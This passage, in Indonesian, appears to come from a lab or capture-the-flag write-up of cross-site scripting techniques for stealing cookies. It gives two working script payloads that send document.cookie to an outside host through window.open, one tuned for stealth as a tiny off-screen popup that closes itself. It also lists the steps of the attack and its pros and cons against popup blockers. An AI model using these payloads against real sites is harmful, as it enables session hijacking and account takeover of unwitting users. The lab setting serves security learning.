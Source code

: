 **Variasi dengan Window Features:**
```javascript
<script>
window.open(
  'https://eqh42jmm.xssy.uk/?c='+document.cookie,
  '_blank',
  'width=1,height=1,top=0,left=0'
);
</script>
```

**Variasi Stealth (tiny popup):**
```javascript
<script>
var win = window.open(
  'https://eqh42jmm.xssy.uk/?c='+document.cookie,
  '',
  'width=1,height=1,left=-1000,top=-1000'
);
setTimeout(function(){ if(win) win.close(); }, 1000);
</script>
```

### Cara Kerja
1. XSS payload di-inject melalui parameter `name`
2. Script memanggil `window.open()` dengan URL target
3. Browser mencoba membuka tab/window baru
4. Popup blocker mungkin menghentikan (jika ada)
5. Jika berhasil, tab baru dibuka dengan URL attacker
6. Cookie dikirim sebagai parameter di URL
7. Server attacker menerima request dari tab baru
8. Victim masih di halaman original (lebih stealth)

### Kelebihan
- ✅ **Victim tetap di page** - Original page tidak berubah
- ✅ **More stealth** - Popup bisa dibuat tiny/invisible
- ✅ **Can close automatically** - Popup bisa auto-close
- ✅ **Flexible positioning** - Control window size & position
- ✅ **Doesn't lose context** - User tidak kehilangan progress

### Kekurangan
- ❌ **Popup blockers** - Browser modern block popup by default
- ❌ **User permission needed** - User harus allow popups
- ❌ **Visible to user** - Sulit 100% hide popup
- ❌ **URL limit** - Tetap ada batasan query string
- ❌ **Lab explicitly blocks** - "headless browser has popup blocker"
- ❌ **Bisa diblokir oleh**: `navigate-to 'self'`, popup blockers

---

## 🎯 Teknik 6: iframe src Navigation
